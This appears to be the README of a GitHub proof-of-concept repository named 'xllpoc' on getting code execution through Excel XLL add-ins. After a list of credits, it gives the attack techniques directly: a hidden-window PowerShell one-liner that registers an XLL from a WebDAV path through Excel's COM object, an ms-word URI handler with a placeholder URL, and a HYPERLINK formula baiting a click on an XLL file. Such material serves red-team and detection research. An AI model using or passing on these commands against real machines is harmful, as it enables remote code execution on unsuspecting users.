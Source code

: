 # xllpoc
Code Exec via Excel

<table>
<tr><td>><strong>Credit</strong></td><tr><br>
<tr><td>EdParcell: https://github.com/edparcell/HelloWorldXll</td></tr><br>
<tr><td>MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx</li><br> 
<tr><td>Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52</li><br>
<tr><td>Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ</li><br>
<tr><td>Many others</td></tr>
</table>
<br><br>

<table>
<tr><td><strong>Interesting</strong></td></tr><br>
<tr><td>ms-word:nft|u|http://PATH</td></tr> <br>
<tr><td>powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"</td></tr><br>
<tr><td>=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK")</td></tr><br>
</table>
